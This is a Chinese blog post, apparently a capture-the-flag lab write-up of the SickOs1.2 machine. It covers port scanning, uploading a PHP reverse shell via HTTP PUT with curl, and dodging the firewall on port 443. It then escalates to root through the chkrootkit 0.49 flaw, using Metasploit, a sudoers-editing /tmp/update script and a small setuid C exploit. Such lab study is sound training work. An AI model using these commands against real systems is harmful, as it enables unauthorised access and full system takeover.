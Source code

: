 ```yaml
---
title: 【网络安全0x0e】PUT上传漏洞
date: 2020-06-21 22:13:08
tags: [网络安全, metasploit, curl]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到一个文件目录界面，curl测试发现开放PUT权限，上传反弹shell获得低权用户的shell，审计代码查询定时任务，发现chkrootkit的0.49版本存在漏洞，使用metasploit结合刚才获得的shell提权攻击，获得root权限。另外还有两种网上查到的提权方法一并展示，不得不说攻击的手段真是层出不穷，方法真是五花八门。

本篇使用工具curl，metasploit。

<!-- more -->

# 使用命令

## curl

``` bash
#测试url允许的post参数
curl -v -X OPTIONS [url]

#PUT上传
curl -v -T [file] [url]
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，`80`口有web服务，`dirb`挖掘`80`端口web信息，找到一个测试界面，打开是文件目录：

``` bash
nmap -sV 192.168.2.149
dirb http://192.168.2.149
```

![](./1065/1.PNG)

2. curl测试网站支持参数，发现可以利用PUT上传反弹shell：

``` bash
curl -v -X OPTIONS http://192.168.2.149/test/
```

![](./1065/2.PNG)

3. 生成反弹shell并上传，这里必须加`-H`自定义头为**Expect:**，否则靶机`lighttpd/1.4.28`这个版本会返回417错误上传失败：

``` bash
curl -v -H "Expect:" -T Desktop/shells/php_reverse_shell.php http://192.168.2.149/test/
```

![](./1065/3.PNG)

4. 开启监听，在靶机执行反弹shell，结果没有弹回来，应该是防火墙拦截了：

![](./1065/4.PNG)

5. 修改监听端口为`443`，成功绕过防火墙拿到低权shell，这里中途换了metasploit监听（对应shell需要msfvenom生成），方便下一步的提权：

![](./1065/6.PNG)

![](./1065/5.PNG)

6. 一顿狂扫，按版本搜漏洞，最后系统版本无漏洞，内核版本无漏洞，chkrootkit(一个检测恶意软件Rootkit的脚本)版本存在漏洞：

``` bash
chkrootkit -V
```

![](./1065/7.PNG)

7. metasploit使用对应漏洞，结合刚才的shell，提权root：

``` bash
msfconsole
>use exploit/unix/local/chkrootkit
>set payload cmd/unix/reverse
>set session 2
>run
```

![](./1065/8.PNG)

8. 成功本地提权，这个利用的是创建`/tmp`下的**update**文件欺骗**chkrootkit**更新以执行提权：

![](./1065/9.PNG)

9. 既然了解了原理，我们也可以手动操作，切到`/tmp`目录下新建**update**文件，echo进去一段代码将当前用户写入sudo组：

``` bash
touch /tmp/update
chmod +x /tmp/update
echo 'chmod +w /etc/sudoers && echo "www-data ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > /tmp/update
```

![](./1065/10.PNG)

10. 还有一种方法是编写exp，原理差不多，改变/tmp的所属组为root以及增加uid为root权限，不过涉及到编译，操作多一点，万一靶机gcc不好使就没办法了：

* exp脚本如下：

``` c
#include <unistd.h>
void main(void)
{
 system("chown root;root /tmp/update");
 system("chmod 4755 /tmp/update");
 setuid(0);
 setgid(0);
 execl("/bin/sh","sh",NULL);
}
```

* 编译：

``` bash
gcc update.c -o update
./update
```

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [kali渗透综合靶机(十二)--SickOs1.2靶机](https://www.cnblogs.com/yuzly/p/10854392.html)